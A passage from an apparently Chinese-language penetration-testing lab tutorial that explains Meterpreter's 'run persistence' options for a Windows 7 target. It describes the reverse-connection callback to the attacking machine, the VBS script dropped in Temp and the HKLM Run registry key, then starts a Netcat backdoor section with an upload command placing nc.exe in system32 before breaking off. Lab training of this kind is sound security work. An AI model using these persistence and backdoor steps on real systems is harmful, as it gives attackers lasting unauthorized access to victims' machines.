   3. 重启靶机后，回弹一个session

     ![persistence_3](./痕迹清除/persistence_3.png)

- **指令解析**

  A：自动启动Payload程序

  S：系统登录时自动加载

  U：用户登录时自动启动

  X：开机时自动加载

  i：回连的时间间隔

  P：监听反向连接端口号

  r：目标机器 IP 地址（攻击主机）

  该指令将在C:\~\AppData\Local\Temp\目录下上传一个vbs脚本，

  在注册表HKLM\Software\Microsoft\Windows\CurrentVersion\Run\加入开机启动项。

  如需更多帮助，可以使用run persistence –h 

- **“中毒”特征**

  重启靶机后可以验证，在-i设定的时间间隔内重新向攻击机返回session。

### **3. Netcat**

- **虚拟机实验环境**

  一台kail（包含nc.exe）（下载链接查看Tips-5）

  一台windows7

- **操作过程**

  1. 上传nc.exe到靶机的system32目录下[如指令使用失败，与Metsvc原因相同]

     指令：upload /root/nc.exe c:\\windows\\system32

     ![Netcat_1](./痕迹清除/Netcat_1.png)

  2. 查看启动项键值
